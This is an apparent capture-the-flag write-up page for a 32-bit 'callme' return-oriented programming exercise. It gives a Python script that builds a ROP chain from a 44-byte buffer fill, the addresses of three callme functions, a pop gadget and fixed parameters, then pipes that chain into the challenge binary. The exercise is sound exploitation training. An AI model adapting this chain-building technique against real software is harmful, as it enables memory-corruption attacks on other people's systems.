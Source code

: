 So let's write the Python code that created the ROP chain

```python
# chain_builder.py
import struct

def little_endian(number):
    """
    : The function accepts a number not
    : exceeding 4 bytes in size and returns it
    : as a string of hexadecimal characters in : little-endian format.
    """
    return struct.pack("<I", number)

# Parts of the chain
fill_buffer  = b"X"*44

callme_one   = little_endian(0x080484f0)
callme_two   = little_endian(0x08048550)
callme_three = little_endian(0x080484e0)

pop3words    = little_endian(0x080487f9)

param1       = 0xdeadbeef
param2       = 0xcafebabe
param3       = 0xd00df00d
params       = little_endian(param1) +\
               little_endian(param2) +\
               little_endian(param3)

# Building the chain
ROP_Chain = fill_buffer
ROP_Chain += callme_one + pop3words + params
ROP_Chain += callme_two + pop3words + params
ROP_Chain += callme_three + pop3words + params

# Saving the chain in a binary file
with open("rop_chain", "wb") as f:
    f.write(ROP_Chain)
```
```
python3 chain_builder.py
```
```
cat rop_chain | ./callme32
```
![](./16.png)

Heida!!!
